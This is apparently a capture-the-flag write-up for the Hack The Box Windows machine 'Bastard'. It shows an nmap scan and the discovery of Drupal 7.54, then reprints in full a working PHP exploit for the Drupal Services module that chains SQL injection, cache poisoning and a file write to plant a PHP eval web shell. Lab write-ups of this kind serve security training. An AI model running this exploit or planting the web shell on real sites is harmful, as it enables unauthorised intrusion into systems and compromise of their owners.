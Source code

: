 ```yaml
---
layout: post
title: Bastard
categories:
  - Writeup
---
```


<br>OS Windows
<br>IP: 10.10.10.9
<br>Machine Author: ch4p

**Nmap**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># nmap -sS -sV -O 10.10.10.9

<br>Starting Nmap 7.50 ( https://nmap.org ) at 2017-12-20 21:59 EST
<br>Nmap scan report for 10.10.10.9
<br>Host is up (0.15s latency).
<br>Not shown: 997 filtered ports
<br>PORT      STATE SERVICE VERSION
<br><font color="BB69EC">80/tcp</font>    open  http    Microsoft IIS httpd 7.5
<br>|_http-generator: Drupal 7 (http://drupal.org)
<br>| http-methods: 
<br>|_  Potentially risky methods: TRACE
<br>| http-robots.txt: 36 disallowed entries (15 shown)
<br>| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
<br>| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
<br>| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
<br>|_/LICENSE.txt /MAINTAINERS.txt
<br>|_http-server-header: Microsoft-IIS/7.5
<br>|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
<br><font color="BB69EC">135/tcp</font>   open  msrpc   Microsoft Windows RPC
<br><font color="BB69EC">49154/tcp</font> open  msrpc   Microsoft Windows RPC
<br>Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
<br>Device type: general purpose|phone|specialized
<br>Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|8.1|7|Vista|2012 (92%)
<br>OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8.1 <br>cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 <br>cpe:/o:microsoft:windows_server_2012
<br>Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows Server 2008 <br>R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft <br>Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), <br>Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 <br>SP1, or Windows 7 (91%)
<br>No exact OS matches for host (test conditions non-ideal).
<br>Network Distance: 2 hops
<br>Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

<br>TRACEROUTE (using port 80/tcp)
<br>HOP RTT       ADDRESS
<br>1   139.01 ms 10.10.14.1
<br>2   139.18 ms 10.10.10.9

<br>OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
<br>Nmap done: 1 IP address (1 host up) scanned in 86.43 seconds

<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>

<br>**Web**:- Drupal Service is running
![Drupal](https://teckk2.github.io/assets/images/Bastard/1-Bastard.JPG)
<br>and by checking /CHANGELOG.txt which we found in the nmap scan of robots.txt, we can see the version installed of drupal is 7.54
![version](https://teckk2.github.io/assets/images/Bastard/2-Bastard.JPG)
<br>For which there is a public exploit available [Drupal-Services-Module-rce](https://www.ambionics.io/blog/drupal-services-module-rce)
<br>Now download the exploit from the blog and edit the $url and $endpoint_path
![edit](https://teckk2.github.io/assets/images/Bastard/3-Bastard.JPG)
**Exploit**:-
<font size="1">
<div style="height:300px;width:600px;overflow:auto;background-color:#262626;color:White;scrollbar-base-color:gold;font-family:monospace;padding:10px;">
<p><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font># cat exploit.php
<br>#!/usr/bin/php
<br><?php
<br># Drupal Services Module Remote Code Execution Exploit
<br># https://www.ambionics.io/blog/drupal-services-module-rce
<br># cf
<br>#
<br># Three stages:
<br># 1. Use the SQL Injection to get the contents of the cache for current endpoint
<br>#    along with admin credentials and hash
<br># 2. Alter the cache to allow us to write a file and do so
<br># 3. Restore the cache
<br># </p>

<p># Initialization</p>

<p>error_reporting(E_ALL);</p>

<p>define('QID', 'anything');
<br>define('TYPE_PHP', 'application/vnd.php.serialized');
<br>define('TYPE_JSON', 'application/json');
<br>define('CONTROLLER', 'user');
<br>define('ACTION', 'login');</p>

<p>$url = 'http://10.10.10.9';
<br>$endpoint_path = '/rest';
<br>$endpoint = 'rest_endpoint';</p>

<p>$file = [
<br>&nbsp;&nbsp;&nbsp;&nbsp;'filename' => 'dixuSOspsOUU.php',
<br>&nbsp;&nbsp;&nbsp;&nbsp;'data' => '<?php eval(file_get_contents(\'php://input\')); ?>'
<br>];</p>

<p>$browser = new Browser($url . $endpoint_path);</p>


<p># Stage 1: SQL Injection</p>

<p>class DatabaseCondition
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $conditions = [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"#conjunction" => "AND"
<br>&nbsp;&nbsp;&nbsp;&nbsp;];
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $arguments = [];
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $changed = false;
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $queryPlaceholderIdentifier = null;
<br>&nbsp;&nbsp;&nbsp;&nbsp;public $stringVersion = null;</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;public function __construct($stringVersion=null)
<br>&nbsp;&nbsp;&nbsp;&nbsp;{
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$this->stringVersion = $stringVersion;</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if(!isset($stringVersion))
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;{
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$this->changed = true;
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$this->stringVersion = null;
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}
<br>&nbsp;&nbsp;&nbsp;&nbsp;}
<br>}</p>

<p>class SelectQueryExtender {
<br>&nbsp;&nbsp;&nbsp;&nbsp;# Contains a DatabaseCondition object instead of a SelectQueryInterface
<br>&nbsp;&nbsp;&nbsp;&nbsp;# so that $query->compile() exists and (string) $query is controlled by us.
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $query = null;</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;protected $uniqueIdentifier = QID;
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $connection;
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $placeholder = 0;</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;public function __construct($sql)
<br>&nbsp;&nbsp;&nbsp;&nbsp;{
<br>&nbsp;&nbsp;&nbsp;&nbsp;$this->query = new DatabaseCondition($sql);
<br>&nbsp;&nbsp;&nbsp;&nbsp;}
<br>}</p>

<p>$cache_id = "services:$endpoint:resources";
<br>$sql_cache = "SELECT data FROM {cache} WHERE cid='$cache_id'";
<br>$password_hash = '$S$D2NH.6IZNb1vbZEV1F0S9fqIz3A0Y1xueKznB8vWrMsnV/nrTpnd';</p>

<p># Take first user but with a custom password
<br># Store the original password hash in signature_format, and endpoint cache
<br># in signature
<br>$query = 
<br>&nbsp;&nbsp;&nbsp;&nbsp;"0x3a) UNION SELECT ux.uid AS uid, " .
<br>&nbsp;&nbsp;&nbsp;&nbsp;"ux.name AS name, '$password_hash' AS pass, " .
<br>&nbsp;&nbsp;&nbsp;&nbsp;"ux.mail AS mail, ux.theme AS theme, ($sql_cache) AS signature, " .
<br>&nbsp;&nbsp;&nbsp;&nbsp;"ux.pass AS signature_format, ux.created AS created, " .
<br>&nbsp;&nbsp;&nbsp;&nbsp;"ux.access AS access, ux.login AS login, ux.status AS status, " .
<br>&nbsp;&nbsp;&nbsp;&nbsp;"ux.timezone AS timezone, ux.language AS language, ux.picture " .
<br>&nbsp;&nbsp;&nbsp;&nbsp;"AS picture, ux.init AS init, ux.data AS data FROM {users} ux " .
<br>&nbsp;&nbsp;&nbsp;&nbsp;"WHERE ux.uid<>(0"
<br>;</p>

<p>$query = new SelectQueryExtender($query);
<br>$data = ['username' => $query, 'password' => 'ouvreboite'];
<br>$data = serialize($data);</p>

<p>$json = $browser->post(TYPE_PHP, $data);</p>

<p># If this worked, the rest will as well
<br>if(!isset($json->user))
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;print_r($json);
<br>&nbsp;&nbsp;&nbsp;&nbsp;e("Failed to login with fake password");
<br>}</p>

<p># Store session and user data</p>

<p>$session = [
<br>&nbsp;&nbsp;&nbsp;&nbsp;'session_name' => $json->session_name,
<br>&nbsp;&nbsp;&nbsp;&nbsp;'session_id' => $json->sessid,
<br>&nbsp;&nbsp;&nbsp;&nbsp;'token' => $json->token
<br>];
<br>store('session', $session);</p>

<p>$user = $json->user;</p>

<p># Unserialize the cached value
<br># Note: Drupal websites admins, this is your opportunity to fight back :)
<br>$cache = unserialize($user->signature);</p>

<p># Reassign fields
<br>$user->pass = $user->signature_format;
<br>unset($user->signature);
<br>unset($user->signature_format);</p>

<p>store('user', $user);</p>

<p>if($cache === false)
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;e("Unable to obtains endpoint's cache value");
<br>}</p>

<p>x("Cache contains " . sizeof($cache) . " entries");</p>

<p># Stage 2: Change endpoint's behaviour to write a shell</p>

<p>class DrupalCacheArray
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;# Cache ID
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $cid = "services:endpoint_name:resources";
<br>&nbsp;&nbsp;&nbsp;&nbsp;# Name of the table to fetch data from.
<br>&nbsp;&nbsp;&nbsp;&nbsp;# Can also be used to SQL inject in DrupalDatabaseCache::getMultiple()
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $bin = 'cache';
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $keysToPersist = [];
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $storage = [];</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;function __construct($storage, $endpoint, $controller, $action) {
<br>&nbsp;&nbsp;&nbsp;&nbsp;$settings = [
<br>&nbsp;&nbsp;&nbsp;&nbsp;'services' => ['resource_api_version' => '1.0']
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;];
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$this->cid = "services:$endpoint:resources";</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;# If no endpoint is given, just reset the original values
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if(isset($controller))
<br>&nbsp;&nbsp;&nbsp;&nbsp;{
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$storage[$controller]['actions'][$action] = [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'help' => 'Writes data to a file',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;# Callback function
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'callback' => 'file_put_contents',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;# This one does not accept "true" as Drupal does,
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;# so we just go for a tautology
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'access callback' => 'is_string',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'access arguments' => ['a string'],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;# Arguments given through POST
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'args' => [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0 => [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'name' => 'filename',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'type' => 'string',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'description' => 'Path to the file',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'source' => ['data' => 'filename'],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'optional' => false,
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;1 => [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'name' => 'data',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'type' => 'string',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'description' => 'The data to write',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'source' => ['data' => 'data'],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'optional' => false,
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'file' => [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'type' => 'inc',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'module' => 'services',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'name' => 'resources/user_resource',
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;],
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'endpoint' => $settings
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;];
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$storage[$controller]['endpoint']['actions'] += [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$action => [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'enabled' => 1,
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;'settings' => $settings
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;]
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;];
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;}</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$this->storage = $storage;
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$this->keysToPersist = array_fill_keys(array_keys($storage), true);
<br>&nbsp;&nbsp;&nbsp;&nbsp;}
<br>}</p>

<p>class ThemeRegistry Extends DrupalCacheArray {
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $persistable;
<br>&nbsp;&nbsp;&nbsp;&nbsp;protected $completeRegistry;
<br>}</p>

<p>cache_poison($endpoint, $cache);</p>

<p># Write the file
<br>$json = (array) $browser->post(TYPE_JSON, json_encode($file));</p>


<p># Stage 3: Restore endpoint's behaviour</p>

<p>cache_reset($endpoint, $cache);</p>

<p>if(!(isset($json[0]) && $json[0] === strlen($file['data'])))
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;e("Failed to write file.");
<br>}</p>

<p>$file_url = $url . '/' . $file['filename'];
<br>x("File written: $file_url");</p>


<p># HTTP Browser</p>

<p>class Browser
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;private $url;
<br>&nbsp;&nbsp;&nbsp;&nbsp;private $controller = CONTROLLER;
<br>&nbsp;&nbsp;&nbsp;&nbsp;private $action = ACTION;</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;function __construct($url)
<br>&nbsp;&nbsp;&nbsp;&nbsp;{
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$this->url = $url;
<br>&nbsp;&nbsp;&nbsp;&nbsp;}</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;function post($type, $data)
<br>&nbsp;&nbsp;&nbsp;&nbsp;{
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$headers = [
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"Accept: " . TYPE_JSON,
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"Content-Type: $type",
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;"Content-Length: " . strlen($data)
<br>&nbsp;&nbsp;&nbsp;&nbsp;];
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$url = $this->url . '/' . $this->controller . '/' . $this->action;</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$s = curl_init(); 
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;curl_setopt($s, CURLOPT_URL, $url);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;curl_setopt($s, CURLOPT_HTTPHEADER, $headers);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;curl_setopt($s, CURLOPT_POST, 1);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;curl_setopt($s, CURLOPT_POSTFIELDS, $data);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;curl_setopt($s, CURLOPT_RETURNTRANSFER, true);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;curl_setopt($s, CURLOPT_SSL_VERIFYHOST, 0);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;curl_setopt($s, CURLOPT_SSL_VERIFYPEER, 0);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$output = curl_exec($s);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;$error = curl_error($s);
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;curl_close($s);</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;if($error)
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;{
<br>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;e("cURL: $error");
<br>&nbsp;&nbsp;&nbsp;&nbsp;}</p>

<p>&nbsp;&nbsp;&nbsp;&nbsp;return json_decode($output);
<br>&nbsp;&nbsp;&nbsp;&nbsp;}
<br>}</p>

<p># Cache</p>

<p>function cache_poison($endpoint, $cache)
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;$tr = new ThemeRegistry($cache, $endpoint, CONTROLLER, ACTION);
<br>&nbsp;&nbsp;&nbsp;&nbsp;cache_edit($tr);
<br>}</p>

<p>function cache_reset($endpoint, $cache)
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;$tr = new ThemeRegistry($cache, $endpoint, null, null);
<br>&nbsp;&nbsp;&nbsp;&nbsp;cache_edit($tr);
<br>}</p>

<p>function cache_edit($tr)
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;global $browser;
<br>&nbsp;&nbsp;&nbsp;&nbsp;$data = serialize([$tr]);
<br>&nbsp;&nbsp;&nbsp;&nbsp;$json = $browser->post(TYPE_PHP, $data);
<br>}</p>

<p># Utils</p>

<p>function x($message)
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;print("$message\n");
<br>}</p>

<p>function e($message)
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;x($message);
<br>&nbsp;&nbsp;&nbsp;&nbsp;exit(1);
<br>}</p>

<p>function store($name, $data)
<br>{
<br>&nbsp;&nbsp;&nbsp;&nbsp;$filename = "$name.json";
<br>&nbsp;&nbsp;&nbsp;&nbsp;file_put_contents($filename, json_encode($data, JSON_PRETTY_PRINT));
<br>&nbsp;&nbsp;&nbsp;&nbsp;x("Stored $name information in $filename");
<br>}
<br><font color="red">root@kali</font>:<font color="RoyalBlue">~/Desktop</font>#</p>
</div>
</font>
